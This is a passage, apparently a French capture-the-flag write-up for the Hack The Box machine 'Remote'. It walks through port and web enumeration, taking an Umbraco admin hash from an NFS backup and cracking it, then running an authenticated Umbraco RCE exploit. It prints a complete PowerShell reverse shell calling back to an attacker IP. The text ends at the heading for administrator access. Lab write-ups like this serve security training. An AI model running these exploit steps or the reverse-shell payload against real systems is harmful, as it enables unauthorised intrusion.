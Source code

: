 ![Pic1](../img/remote1.PNG?raw=true) </br>

# Introduction
Remote est une machine Windows dont l'adresse IP est 10.10.10.180.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
</br>

# Enumération initiale
Nous commençons l'énumération par les ports et services de la machine distante avec nmap :
```bash
$ nmap -T4 -A 10.10.10.180
```
![Pic2](../img/remote2.PNG?raw=true) </br>
![Pic3](../img/remote3.PNG?raw=true) </br>
Beaucoup de ports sont ouverts, nous pouvons reconnaitre les ports habituels d'un serveur Windows :
*21 pour un serveur ftp, dont l'utilisateur Anonymous est autorisé.
*80 pour un serveur web.
*111 pour du rpc.
*135 pour du msrpc, il permet des appels de procédures RPC.
*139 pour du netbios-ssn, il permet la découverte et la connexion des voisins dans le réseau.
*445 pour un service SMB.
*2049 pour un démon de montage (rpc.mount).
</br>

Nous allons faire une énumération des fichiers/dossiers du site web avec dirsearch :
```bash
$ dirsearch -w wordlist -e "php,html,aspx" -f -t 100 -x 400,403,404,501 -u http://10.10.10.180
```
![Pic4](../img/remote4.PNG?raw=true) </br>
Plein de dossier, l'énumération n'est pas exhaustive, umbraco est intéréssant car c'est un cms.

# Obtenir un accès utilisateur
Pour l'instant, nous avons rien à faire avec Umbraco, nous allons voir les répertoires partagés disponibles :
```bash
$ showmount -e 10.10.10.180
```
![Pic5](../img/remote5.PNG?raw=true) </br>
Nous allons monter ce répertoire chez nous et l'explorer :
```bash
$ sudo mount.nfs 10.10.10.180:site_backups /mnt/site_backups/ -w
```
Le dossier site_backup étant une sauvegarde du site, en cherchant sur internet, nous trouvons que Umbraco garde les hash des mot de passes dans un fichier Umbraco.sdf :
```bash
$ strings App_Data\Umbraco.sdf | grep -A 2 -B 2 'dmin'
```
![Pic6](../img/remote6.PNG?raw=true) </br>
Maintenant que nous avons le hash de l'utilisateur admin, nous pouvons le cracker avec john :
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic7](../img/remote7.PNG?raw=true) </br>
Donc nous avons l'utilisateur admin:baconandcheese, nous allons voir s'il y a un exploit avec searchsploit pour Umbraco pour avoir une RCE authentifiée :
```bash
$ searchsploit umbraco
```
![Pic8](../img/remote8.PNG?raw=true) </br>
Après plusieurs tests, l'exploit ne fonctionne pas, au lieu d'y consacrer trop de temps, un autre exploit fonctionnel est sur github :
```bash
$ git clone https://github.com/noraj/Umbraco-RCE
$ python3 exploit.py -u "admin@htb.local" -p "baconandcheese" -i 'http://10.10.10.180/' -c powershell.exe -a '-NoProfile -Command whoami'
```
![Pic9](../img/remote9.PNG?raw=true) </br>
Edit : j'ai eu le même problème que l'exploit d'avant, sauf que j'ai reussis à résoudre le problème. Bref, maintenant que nous avons une RCE en powershell,
nous allons upload et executé un reverse shell en powershell :</br>
Contenu du fichier shell.ps1 :
```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.43",8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Maintenant pour l'upload, nous allons mettre un serveur python3 en place et sur la box, récupérer le shell avec powershell :
```bash
$ python3 -m http.server
```
```bash
$ nc -lvnp 4567
```
```bash
$ python3 exploit.py -u "admin@htb.local" -p "baconandcheese" -i 'http://10.10.10.180/' -c powershell.exe -a '-NoProfile -Command curl'
```
![Pic10](../img/remote10.PNG?raw=true) </br>
Après avoir reçu la connection sur netcat, nous allons regarder le fichier user.txt situé dans user/public.

# Obtenir un accès Administrateur


